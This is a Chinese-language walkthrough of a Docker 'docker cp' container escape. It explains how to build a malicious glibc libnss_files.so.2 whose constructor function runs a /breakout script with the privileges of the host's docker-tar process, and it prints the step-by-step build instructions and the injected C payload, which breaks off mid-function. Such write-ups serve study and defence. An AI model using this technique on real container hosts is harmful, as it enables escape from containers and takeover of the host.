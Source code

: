 可以看到，在这次复制操作中，docker-tar加载了`libnss_files-2.31.so`,后面，我们选择`libnss_files-2.31.so`为目标，构造一个恶意得动态链接库来替换它。

##### 构建动态链接库

`libnss_*.so`均在Glibc中，我们首先下载Glibc库
https://ftp.gnu.org/gnu/glibc/glibc-2.31.tar.bz2

之后解压到本地目录，我这里的话是

/root/gnu/glibc-2.31。然后在/root/gnu目录新建一个glibc-build目录，作为构建目录。

```
tar -jxvf glibc-2.31-tar.bz2
```

进入 glibc-2.31

```
cd glibc-2.31
```

注释掉`glibc-2.31/Makeconfig`文件中得一行警告设置，避免加入恶意payload后编译失败:

```
+gccwarn-c = -Wstrict-prototypes -Wold-style-definition
```

接着，我们就可以在源代码中添加恶意`payload`了

可以在`glibc-2.31/nss/nss_files`目录下任意源码中添加`payload`

这里选择`files-service.c`文件，不必过多操作，作为一个获取控制权的途径，把真正具有威胁的操作放入容器内/breakout脚本中，让动态链接库去执行/breakout脚本文件即可。

在其中一个源文件中添加函数run_at_link()，使用构造函数定义该函数，所以每次进程加载时，run_at_link()函数都能够作为库的初始化函数执行，即docker-tar进程动态加载此库，函数就会执行。

在`files-service.c`文件中加入如下payload

```
// content should be added into nss/nss_files/files-service.c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/wait.h>
//容器内部原始original_libnss_files.so.2文件的备份位置
#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
//恶意original_libnss_files.so.2的位置
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();
//带有constructor属性的函数会在动态链接库被加载时自动执行
__attribute__ ((constructor)) void run_at_link(void) {
     char * argv_break[2];
    //判断当前是否时容器外的高权限进程（docker-tar）
    //如果时容器内进程，则不做任何操作
     if (!is_priviliged())
           return;
	//攻击只需要执行一次即可
    //用备份的原始libnss_files.so.2文件替换恶意libnss_files.so.2文件
    //避免后续的docker cp操作持续加载恶意libnss_files.so.2文件
     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
	//以docker-tar进程的身份创建新进程，执行容器内的breakout脚本
     if (!fork()) {
        // Child runs breakout
        argv_break[0] = strdup("/breakout");
        argv_break[1] = NULL;
        execve("/breakout", argv_break, NULL);
     }
     else
        wait(NULL); // Wait for child
```
